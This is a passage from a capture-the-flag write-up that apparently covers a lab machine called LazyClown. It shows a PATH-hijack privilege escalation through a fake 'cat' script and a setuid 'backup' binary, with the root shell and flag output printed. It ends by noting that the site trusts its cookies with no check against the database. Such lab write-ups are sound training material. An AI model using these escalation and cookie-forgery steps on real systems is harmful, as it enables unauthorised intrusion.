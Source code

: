     #!/bin/sh
    
    /bin/sh
    

And now I `backup` returns a root shell:

    
    
    mitsos@LazyClown:~$ ./backup 
    # id
    uid=1000(mitsos) gid=1000(mitsos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(mitsos)
    

I can try to grab `root.txt`, but nothing comes:

    
    
    # cat root.txt
    

I need to set the `$PATH` back so that it doesn’t call my `cat`, or I can use
`tac` or `less` or `vim` or `grep .` or lots of other ways to get at file
contents:

    
    
    # PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
    # cat root.txt
    990b142c************************
    # grep . root.txt
    990b142c************************
    # tac root.txt
    990b142c************************
    

## Beyond Root

### Website Source Analysis

#### General Structure

I always I like to check out how the website works by looking at the files in
`/var/www/html/`. The auth is based around a `User` class. In `login.php`, if
`User::login` returns success, it then calls `User::createcookie` with the
username and password. `register.php` checks that the right POST data is set,
and that the username doesn’t contain `:`, and then passed to
`User::Register`. If that succeeds, it calls `User::createcookie` and then
redirects to `index.php`. Otherwise, it returns that the user already exists.
`index.php` checks `$user` to print either the admin page, the logged in as
non-admin page, or the not logged in page. There’s no verification against the
database. All that matters is what’s in the cookie.
